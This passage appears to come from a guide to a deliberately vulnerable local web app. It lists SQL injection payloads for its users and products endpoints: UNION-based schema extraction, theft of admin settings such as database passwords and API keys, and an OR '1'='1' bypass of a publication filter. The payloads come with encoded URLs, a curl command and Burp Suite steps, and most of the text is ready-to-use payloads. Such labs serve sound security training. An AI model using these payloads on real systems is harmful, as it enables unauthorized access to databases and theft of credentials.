 #### Payload 2: Union-Based Schema Extraction
- **Username**: `admin' UNION SELECT 1, table_name, 'fake_email', 'fake_pass', 'user', true, CURRENT_TIMESTAMP, NULL, 0 FROM information_schema.tables -- `
- **URL**: `http://localhost:3000/api/users/admin%27%20UNION%20SELECT%201,table_name,%27fake_email%27,%27fake_pass%27,%27user%27,true,CURRENT_TIMESTAMP,NULL,0%20FROM%20information_schema.tables%20--%20`
- **Resulting Query**: `SELECT * FROM users WHERE username = 'admin' UNION SELECT 1, table_name, 'fake_email', 'fake_pass', 'user', true, CURRENT_TIMESTAMP, NULL, 0 FROM information_schema.tables -- `
- **Effect**: Returns a list of table names (e.g., `users`, `user_profiles`, `admin_settings`) in the `username` field.
- **How to Test**:
  1. Send the request via `curl` or a browser.
  2. Inspect the response for table names in the `username` field.
  3. Use Burp Suite to inject the payload into a frontend request.

#### Payload 3: Extract Admin Settings
- **Username**: `admin' UNION SELECT 1, setting_key, setting_value, 'fake_pass', 'user', true, CURRENT_TIMESTAMP, NULL, 0 FROM admin_settings -- `
- **URL**: `http://localhost:3000/api/users/admin%27%20UNION%20SELECT%201,setting_key,setting_value,%27fake_pass%27,%27user%27,true,CURRENT_TIMESTAMP,NULL,0%20FROM%20admin_settings%20--%20`
- **Resulting Query**: `SELECT * FROM users WHERE username = 'admin' UNION SELECT 1, setting_key, setting_value, 'fake_pass', 'user', true, CURRENT_TIMESTAMP, NULL, 0 FROM admin_settings -- `
- **Effect**: Exposes sensitive data from `admin_settings` (e.g., `database_password`, `api_secret_key`).
- **How to Test**:
  1. Send the request via `curl` or a browser.
  2. Check the response for sensitive keys (e.g., `database_password`) and values (e.g., `super_secret_db_pass_2024!`).
  3. Use a proxy to modify a frontend request.

### 3. Products Endpoint (`GET /api/products/:category`)
- **Input Field**: `category` (URL parameter)
- **Vulnerable Query**: `SELECT * FROM products WHERE category = '${category}' AND is_published = true`
- **Goal**: Access unpublished products or extract other data.

#### Payload 1: Bypass is_published Restriction
- **Category**: `Electronics' OR '1'='1`
- **URL**: `http://localhost:3000/api/products/Electronics%27%20OR%20%271%27=%271`
- **Resulting Query**: `SELECT * FROM products WHERE category = 'Electronics' OR '1'='1' AND is_published = true`
- **Effect**: Returns all products, including the `Secret Product` (name: `Secret Product`, price: 9999.99, `is_published = false`).
- **How to Test**:
  1. In the frontend, use browser developer tools to modify the `category` dropdown value to the payload.
  2. Alternatively, send the request via `curl`:
     ```bash
     curl "http://localhost:3000/api/products/Electronics%27%20OR%20%271%27=%271"
     ```
  3. Check the response for the `Secret Product`.
